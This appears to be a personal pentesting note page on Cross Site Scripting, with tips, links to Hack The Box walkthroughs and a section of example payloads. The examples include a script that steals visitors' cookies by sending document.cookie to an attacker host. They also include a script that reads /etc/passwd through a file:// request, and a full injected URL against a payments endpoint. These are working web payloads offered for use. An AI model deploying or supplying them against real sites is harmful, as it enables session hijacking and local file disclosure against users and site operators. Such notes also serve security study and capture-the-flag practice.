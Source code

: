 
Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users. 

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

1. Remember it relies on an external user and therefor may be unreliable, this may take time or multiple login attempts.
2. The value which gets displayed and can be modified may be in a strange place, check the URL and request parameters.

# Notes

[[Edge Side Include (ESI)]] is a manor of XXS which can bypass many XXS filters if ESI is being used by the website.

# Walkthrough

1. [HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)
2. [HTB: Bankrobber | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html)

# Examples

## Stealing Cookies

```
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.

## Running Code

[Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
```

`https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>&date=2017-08-11&settlement_type=all&advice_id=undefined`